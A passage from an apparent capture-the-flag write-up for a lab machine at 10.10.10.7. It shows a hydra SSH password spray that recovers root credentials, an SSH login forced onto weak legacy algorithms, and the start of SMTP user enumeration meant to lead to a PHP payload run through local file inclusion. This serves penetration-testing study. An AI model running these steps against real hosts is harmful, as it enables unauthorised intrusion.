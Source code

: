 ```bash
admin
amp109
amp111
asterisk
asteriskuser
jEhdIekWmdjE
localhost
mysql
```

A password spray attack using hydra can now be used with the list of users and password.

```bash
hydra -L users -P password ssh://10.10.10.7 -t 4
[ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
```

The attacker can now successfully login as the **root** user using th credentials `root:jEhdIekWmdjE`.

However while logging in using ssh, an error is preventing the attacker from logging in.

```bash
$ ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

After researching the issue, a solution was provided on [https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found](https://unix.stackexchange.com/questions/402746/ssh-unable-to-negotiate-no-matching-key-exchange-method-found).

```bash
ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc 
```

After using the ssh command above, the attacker can successfully login to the system.

# Exploitation Method 2

## Method 2: SMTP To Low Privilege Shell

### **Vulnerability Explanation:**

Since **SMTP** is being used, if a user has a mail account configured, it can be accessed on the user's mail location **/var/mail/user**. The attacker can mail a user, a php payload, and then read the mail location using the local file inclusion to execute the php payload on the webserver.

The enumeration steps can be followed from here: [https://book.hacktricks.xyz/pentesting/pentesting-smtp](https://book.hacktricks.xyz/pentesting/pentesting-smtp)

```bash
telnet 10.10.10.7 25
...[snip]...
220 beep.localdomain ESMTP Postfix
EHLO anubhav@locahost.com 
# EHLO = Enhanced Hello is used to identify the attacker with the server
...[snip]...
VRFY asterisk@localhost
252 2.0.0 asterisk@localhost
# VRFY = Verify is used to check if a user exist
```
